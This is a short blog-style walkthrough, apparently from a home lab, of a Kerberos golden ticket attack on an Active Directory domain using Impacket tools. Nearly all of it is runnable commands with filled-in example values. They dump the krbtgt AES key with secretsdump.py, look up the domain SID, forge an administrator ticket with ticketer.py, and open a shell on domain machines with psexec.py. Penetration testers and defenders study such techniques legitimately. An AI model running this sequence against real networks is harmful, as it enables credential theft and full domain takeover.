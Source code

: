 ```yaml
---
layout: post
title: Golden Ticket Attacks using Impacket
---
```


After playing about with Mimikatz for a bit and looking at a few options to bypass the anti virus, I decided a different tool might make more sense.
Impacket contains a number of tools that can be used to obtain the krbtg hash and the domain SID, create a golden ticket offline and then obtain a shell using the Kerberos ticket.

> [!NOTE]
> Credentials are needed to run these commands on the domain controller. These can be obtained by cracking NTLM hashes  or running a MITM6 attack.

<br>

Use secretsdump.py to obtain the aes256 key for the krbtgt account <br>

``` secretsdump.py domain/user:password dc-ip ``` <br>
``` secretsdump.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250 ``` <br>


Use lookupsid.py to find the domain SID

``` Lookupsid.py <domain>/<user>:<password> <dc-ip> ``` <br>
``` Lookupsid.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250 ``` <br>

Use ticketer.py to create TGT

``` ticketer.py -aes <aes-256> -domain-sid <SID> -domain <domain> -user-id <500> username ``` <br>
``` ticketer.py -aes 5735dd8eaf424d966ef640d4056e2eb90310345d58b074103444483bdf736861 -domain-sid S-1-5-21-536825828-3248286720-2276939788 -domain home.local -user-id 500 administrator ``` <br>
  
Export KRB5CCNAME to created ticket location

``` export KRB5CCNAME=/home/kali/Documents/administrator.ccache ``` <br>

Use psexec to obtain a shell on any machine in the domain

``` psexec.py <domain>/<user>@<hostname>.<fqdn> -no-pass -k ``` <br>
``` psexec.py home.local/administrator@TargetPC.home.local -no-pass -k ``` <br>

